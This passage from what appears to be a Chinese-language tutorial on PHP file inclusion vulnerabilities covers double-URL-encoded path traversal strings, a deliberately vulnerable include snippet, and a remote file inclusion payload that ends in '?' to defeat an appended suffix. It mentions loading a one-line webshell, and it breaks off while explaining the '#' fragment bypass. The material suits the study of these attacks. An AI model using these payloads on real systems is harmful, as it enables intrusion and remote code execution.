 ②二次编码

这个二次编码指的是url的二次编码，其实他就是对url编码了一次的字符串再做了一次url编码。一个url编码的形式是%xx,两次url编码的形式就是%xxxx，从后面的2位变成了4位，所以展现几个为

| 编码字符串 | 编码结果            | 编码方式    |
| ----- | --------------- | ------- |
| ../   | %252e%252e%252f | url二次编码 |
| ..\\  | %252e%252e%255c | url二次编码 |

### <mark style="color:purple;background-color:yellow;">（2）遇到后缀</mark>

```php
<?php
    $file = $_GET['file'];
    include $file.'/test/test.php';
?>
```

文章中提到了include有两种情况，一种是结果file是个路径，是个url，一个是file是个伪协议。我们也按照上面写的来。

#### <mark style="color:yellow;background-color:blue;">①解决url</mark>

url拼接之后就是

```url
http://**********/path/file.php/test/test.php
```

我们可以用query(?)和fragement()来绕过。

条件：

* allow\_url\_fopen()=on
* allow\_url\_include()=on

#### (1)query(?)

首先我们解释一下url中的query是什么

> URL查询(Query)是指在URL(Uniform Resource Locator，统一资源定位符)中的问号（?）后面添加的键值对。我们的文件里面如果没有需要添加的键值对的话是就算后面有？也不起作用。

姿势：

在我们常写的file后面加一个？就是新的file里面应该有的

```url
index.php?file=http://remoteaddr/remoteinfo.txt?
```

如果我们要写入木马或者命令的话，只要将remoteinfo.txt的内容变成一句话木马就行。

#### （2）fragment（#/%23）

首先我们解释一下什么是url里面的fragment

> URL片段（URL fragment）是一个附加到URL的字符串，以#为前缀。它旨在帮助浏览器识别特定内容或部分页面，并不会发送到服务器，也不会影响页面的加载。
